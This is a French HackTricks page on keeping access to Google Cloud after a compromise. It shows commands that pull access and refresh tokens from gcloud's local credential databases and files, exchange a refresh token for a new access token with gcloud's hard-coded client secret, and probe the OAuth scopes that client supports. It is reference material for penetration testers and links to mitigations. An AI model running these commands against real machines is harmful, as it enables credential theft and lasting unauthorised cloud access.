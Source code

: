 # GCP - Persistance Non-svc

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

Ces techniques sont utiles une fois que, d'une manière ou d'une autre, vous avez compromis des informations d'identification GCP ou une machine s'exécutant dans un environnement GCP.

## Détournement de jeton

### Jetons d'utilisateur authentifiés

Pour obtenir le **jeton actuel** d'un utilisateur, vous pouvez exécuter:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Consultez cette page pour savoir comment **utiliser directement ce jeton avec gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Pour obtenir les détails pour **générer un nouveau jeton d'accès**, exécutez:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Il est également possible de trouver des jetons de rafraîchissement dans **`$HOME/.config/gcloud/application_default_credentials.json`** et dans **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Pour obtenir un nouveau jeton d'accès rafraîchi avec le **jeton de rafraîchissement**, l'ID client et le secret client, exécutez : 

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

La validité des jetons de rafraîchissement peut être gérée dans **Admin** > **Sécurité** > **Contrôle de session Google Cloud**, et par défaut elle est définie à 16h bien qu'elle puisse être définie pour ne jamais expirer:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Flux d'authentification

Le flux d'authentification lors de l'utilisation de quelque chose comme `gcloud auth login` ouvrira une invite dans le navigateur et après avoir accepté toutes les autorisations, le navigateur enverra une requête comme celle-ci au port http ouvert par l'outil:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Ensuite, gcloud utilisera l'état et le code avec un certain `client_id` codé en dur (`32555940559.apps.googleusercontent.com`) et **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) pour obtenir les **données finales du jeton de rafraîchissement**.

{% hint style="danger" %}
Notez que la communication avec localhost se fait en HTTP, il est donc possible d'intercepter les données pour obtenir un jeton de rafraîchissement, cependant ces données ne sont valides qu'une seule fois, donc cela serait inutile, il est plus facile de simplement lire le jeton de rafraîchissement à partir du fichier.
{% endhint %}

### Portées OAuth

Vous pouvez trouver toutes les portées Google dans [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) ou les obtenir en exécutant :

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Il est possible de voir quels sont les scopes que l'application utilisée par **`gcloud`** pour s'authentifier peut prendre en charge avec ce script :
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Après l'avoir exécuté, il a été vérifié que cette application prend en charge ces étendues :
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
### Comptes de service

Tout comme avec les utilisateurs authentifiés, si vous parvenez à **compromettre le fichier de clé privée** d'un compte de service, vous pourrez **y accéder généralement aussi longtemps que vous le souhaitez**.\
Cependant, si vous volez le **jeton OAuth** d'un compte de service, cela peut être encore plus intéressant, car, même si par défaut ces jetons sont utiles seulement pendant une heure, si la **victime supprime la clé API privée, le jeton OAuth restera valide jusqu'à expiration**.

### Métadonnées

Évidemment, tant que vous êtes à l'intérieur d'une machine s'exécutant dans l'environnement GCP, vous pourrez **accéder au compte de service attaché à cette machine en contactant le point de terminaison des métadonnées** (notez que les jetons OAuth auxquels vous pouvez accéder dans ce point de terminaison sont généralement restreints par des étendues).

### Solutions

Certaines solutions pour ces techniques sont expliquées dans [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Références

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

